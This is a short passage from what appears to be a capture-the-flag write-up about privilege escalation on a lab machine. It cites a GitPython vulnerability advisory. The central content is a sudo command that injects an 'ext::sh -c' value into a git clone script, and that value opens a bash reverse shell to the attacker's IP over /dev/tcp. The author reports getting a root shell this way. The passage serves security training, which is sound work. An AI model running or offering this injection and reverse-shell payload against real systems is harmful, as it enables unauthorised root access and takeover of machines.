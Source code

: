 https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858 

```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c bash% -c% 'bash% -i% >&% /dev/tcp/10.10.14.246/4445% 0>&1'"

```

This way, I got a reverse shell with root.

![b](/images/images-editorial/image_13.png)